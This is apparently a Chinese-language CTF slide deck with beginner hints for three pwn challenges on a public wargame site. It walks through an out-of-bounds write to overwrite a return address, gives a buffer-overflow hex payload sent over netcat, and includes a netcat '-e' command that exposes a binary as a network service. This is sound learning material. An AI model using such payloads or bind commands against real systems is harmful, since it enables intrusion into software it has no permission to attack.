 ### 第一次解 
# Pwn
### 就上手

jason3e7 20190820

Note:title:"第一次解 Pwn 就上手"

---

# Pwn
* [catflag](#/2)
* [homework](#/3)
* [toooomuch](#/4)

Note:
* 要怎麼錄過程呢!?
  * `tcpdump host 140.118.126.236 -w output.pcap`
* 怎麼自己架設一樣的環境呢
  * `socat tcp-l:9999,fork exec:./execfile`

---

## catflag hint
* 目標 : get flag
* 方向 : 
  * `nc hackme.inndy.tw 7709`
  * linux command
* [Back to Pwn](#/1)

Note:
* 感覺是寫固定 pattern 的程式.

---

## homework hint
* 目標 : get shell
* 方向 : 
  * index out bound
  * Return Address
* [Back to Pwn](#/1)

Note:
* use tools
  * gdb-peda
  * ida pro, 不一定需要
* 要知道 call function 時候 stack 的變化, 可以 google search `call function stack`.
* step
  * find call_me_maybe(memory), `0x80485fb, 134514171`
    * `disassemble call_me_maybe`
  * find run_program return address(memory), `arr[14]`
    * 連續塞值, 觀察 stack
    * `context stack 24`
  * use write function overwrite run_program return address
* [GDB cheatsheet](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)
* [peda_cheatsheet](https://github.com/ebtaleb/peda_cheatsheet/blob/master/peda.md)

---

## toooomuch hint
* 目標 : pass the game
* 方向 : 
  * play game
  * buffer overflow
* [Back to Pwn](#/1)

Note:
* F5 大絕招知道, passcode
* F5 大絕招知道, 0 ~ 100, 8 次內一定會猜到, 可以直接用猜的.
* buffer overflow
  * s = 18h, 24bytes
  * gdb 測試結果還有疊一個 int, 4 bytes, 看 funtion 開頭也有 sub.
  * print_flag, 0x0804863b.
  * echo -e "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x3b\x86\x04\x08"
    * -e, enable interpretation of backslash escapes
    * -n, do not output the trailing newline
    * [Sending a hex string to a remote via netcat](https://stackoverflow.com/questions/43919867/sending-a-hex-string-to-a-remote-via-netcat)
  * 在自己架的題目可以打的出來, 但是遠端不能, 因為沒有等待.
    * `nc.traditional -nvlp 5566 -e toooomuch`
    * 淯鼎黑科技, `(echo -e "\x00";cat -) | nc IP Port`, 這樣代表什麼意思呢?, 在哪裡看到的呢?, 好像還可以接續操作呢!?
      * `echo -e "\x00";cat - | nc IP Port`, 這樣代表什麼意思呢?
    * `(echo -e "\x00";sleep 3) | nc IP Port`, 這樣也可以.

---

# The End
